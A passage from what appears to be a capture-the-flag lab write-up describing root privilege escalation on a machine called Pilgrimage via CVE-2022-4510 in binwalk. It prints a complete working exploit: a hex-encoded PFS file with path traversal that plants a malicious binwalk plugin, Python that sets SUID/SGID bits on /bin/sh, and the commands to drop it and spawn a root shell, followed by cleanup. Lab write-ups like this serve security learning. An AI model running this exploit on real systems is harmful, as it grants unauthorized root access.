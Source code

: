 #### Exploitation

After looking at the CVE description and Python PoC, it was noted that the exploit was simply comprised of a special PFS file followed by some Python code. We copied the PFS contents from the PoC to a bash variable, then added some trailing Python code to add the SUID/SGID bits to `/bin/sh`{:.filepath}, and finally copied the exploit to a new file in `/var/www/pilgrimage.htb/shrunk`{:.filepath}. after a few seconds, our code was executed and we spawned a root shell.

~~~bash
# Exploit CVE-2022-4510
# https://www.exploit-db.com/exploits/51249
pfs="\x50\x46\x53\x2f\x30\x2e\x39\0\0\0\0\0\0\0\x01\0\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x63\x6f\x6e\x66\x69\x67\x2f\x62\x69\x6e\x77\x61\x6c\x6b\x2f\x70\x6c\x75\x67\x69\x6e\x73\x2f\x62\x69\x6e\x77\x61\x6c\x6b\x2e\x70\x79\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\x34\x12\0\0\xa0\0\0\0\xc1\0\0\x2e"
# This will add the SUID/SGID bits to /bin/sh
code="import os;os.chmod('/bin/sh',0o6755)"

# Deliver the exploit
echo -e "$pfs$code" > /var/www/pilgrimage.htb/shrunk/pwnwalk.pfs
# Spawn root shell
sleep 5s; /bin/sh -p
~~~
{:file="emily@pilgrimage ➤ bash" .nolineno}

After grabbing the flags, we removed the SUID and SGID bits from `/bin/sh`{:.filepath} along with any filesystem artifacts left from exploitation of CVE-2022-4510.

~~~sh
# Clean up
chmod -s /bin/sh # Normalize /bin/sh
rm -f /var/www/pilgrimage.htb/shrunk/pwnwalk.pfs # Remove exploit PFS
rm -f /root/.config/binwalk/plugins/binwalk.py # Remove malicious plugin
exit # Pwned!
~~~
{:file="root@pilgrimage ➤ sh" .nolineno}